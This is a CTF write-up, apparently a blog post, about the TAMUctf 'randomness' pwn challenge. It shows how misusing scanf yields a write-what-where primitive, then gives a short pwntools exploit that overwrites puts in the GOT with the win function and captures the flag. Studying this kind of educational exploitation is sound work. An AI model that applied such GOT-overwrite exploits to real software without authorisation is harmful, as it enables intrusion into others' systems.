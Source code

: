 I set breakpoints at both `foo` and `bar` and passed the value `41414141` as the seed (which is equvivalent to `0x277edfd` in hex)

```
pwndbg> r
Starting program: ~/tamuctf/pwn/randomness/randomness
hello!
Enter a seed:
41414141
```
![Scanf overwrite](scanf_overwrite.png)

We can see that the `scanf` call will write what we input into the address corresponding to the value of `a`, meaning that in this case our input will be written to the address `0x277edfd`. This is not an address we can write to, so in this case our program will segfault.

However, since we can choose the address to write to, and the value to write we have a `write what where` vulnerabiltiy because of this scanf-misuse.

Remember that it is not `FULL RELRO` on the binary? This means that we can overwrite functions in the GOT! If you're not aware of what the GOT is you could imagine it as a *shortcut* to calling functions. When a function is called for the first time it has to be look up, before its address is stored in the GOT, and the GOT is used for subsequent calls (thats the short version at least).

`puts` seems the best to overwrite since its initialized in the GOT when `bar` is called, and `puts` is also called after our `scanf` in `bar`. We will therefore overwrite the `puts` address in the GOT to the `win` function address, making the next `puts` call after our `scanf` call call `win` for us.

The exploit is quite short to do this
```python
io = start()
io.sendlineafter(b"seed:", str(exe.got.puts).encode())
io.sendlineafter(b"guess:", str(exe.sym.win).encode())
io.interactive()
```
{: .nolineno }

```bash
$ python3 exploit.py
[+] Opening connection to tamuctf.com on port 443: Done
[*] Switching to interactive mode

gigem{value_or_pointer_is_an_important_distinction}
```
{: .nolineno }
